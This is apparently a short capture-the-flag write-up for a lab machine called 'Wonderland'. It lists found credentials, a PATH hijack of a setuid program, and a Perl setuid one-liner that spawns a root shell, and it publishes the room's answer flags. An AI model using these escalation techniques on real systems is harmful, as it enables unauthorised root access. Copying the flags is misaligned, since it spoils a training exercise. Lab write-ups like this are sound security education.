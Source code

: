 # Wonderland

> John Hammond | August 19th, 2020

----------------------------------

view-source:http://10.10.101.240/r/a/b/b/i/t/

alice:HowDothTheLittleCrocodileImproveHisShiningTail

Needs a `random.py` in the home directory to privesc

sudo -l to switch to `rabbit` user and find `teaParty` setuid program.

It runs `date` and we can create a fake `date` to run first in the path.

This brings us to `hatter` user.

in the hatter user home directory there is a password.txt

```
WhyIsARavenLikeAWritingDesk?
```

As hatter, we can run `perl` and abuse the setuid capability

```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

1. Obtain the flag in user.txt

```
thm{"Curiouser and curiouser!"}
```


2. Escalate your privileges, what is the flag in root.txt?

```
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
```